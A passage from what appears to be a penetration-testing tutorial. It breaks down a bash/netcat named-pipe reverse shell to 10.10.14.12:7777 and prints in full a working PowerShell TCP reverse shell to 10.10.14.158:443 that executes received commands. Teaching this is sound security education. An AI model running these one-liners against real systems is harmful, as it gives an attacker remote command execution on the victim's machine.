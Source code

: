 #### Output Redirection


```shell-session
cat /tmp/f |
```

Joins up the FIFO named pipe file at /tmp/f, and then uses the pipe (`|`) to link the normal output of cat /tmp/f with the normal input of whatever command comes after the pipe (`|`).
#### Set Shell Options


```shell-session
/bin/bash -i 2>&1 |
```

So, you're telling the computer to use this command language interpreter with the `-i` option to make sure it's all interactive. And the `2>&1` part is just redirecting both error messages and regular output to whatever command comes next in the pipeline.
#### Open a Connection with Netcat


```shell-session
nc 10.10.14.12 7777 > /tmp/f
```

Alright, let's break it down in simpler terms. We're using Netcat to connect to a host that's set up for our attack, which is `10.10.14.12`, and it's listening on port `7777`. Once we make the connection, the output gets sent to a file in `/tmp` called `f`. This sets up a backdoor Bash shell that our Netcat listener is waiting for. When everything's all set, we run this one-liner command to open the reverse shell.

### PowerShell One-liner Explained

The shells and payloads we pick totally depend on the OS we're targeting. Keep this in mind as we go through the module. Remember when we did the reverse shells? We set up a reverse shell with a Windows system using PowerShell. Let's break down that one-liner we used, shall we?

#### Powershell One-liner


```cmd-session
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Let's break down that huge PowerShell command up there, shall we? It might seem like a mouthful, but we'll try to make it less scary and more understandable.
#### Calling PowerShell


```cmd-session
powershell -nop -c
```
